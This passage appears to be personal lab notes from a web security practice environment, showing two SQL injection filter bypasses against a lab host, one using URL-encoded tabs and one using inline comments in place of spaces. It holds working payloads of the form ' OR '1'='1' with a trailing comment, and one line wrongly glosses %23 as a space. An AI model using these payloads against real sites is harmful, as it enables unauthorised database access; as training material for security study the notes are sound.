 ## Example 2 - ERROR NO SPACE

`http://172.16.219.145/sqli/example2.php?name=root`
- site returns `ERROR NO SPACE` when space is in URL

### Payload

`?name=root'%09OR%09'1'='1'%09%23`
- `%09` decodes to **tab**, which is an alternative to **space** (`%23`)

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413155950.png" width="600"/>

## Example 3 - PHP Comment Spaces

`http://172.16.219.145/sqli/example3.php?name=root`
- no tabs or spaces allowed
### Payload

`?name=root'/**/OR/**/'1'='1'/**/%23`
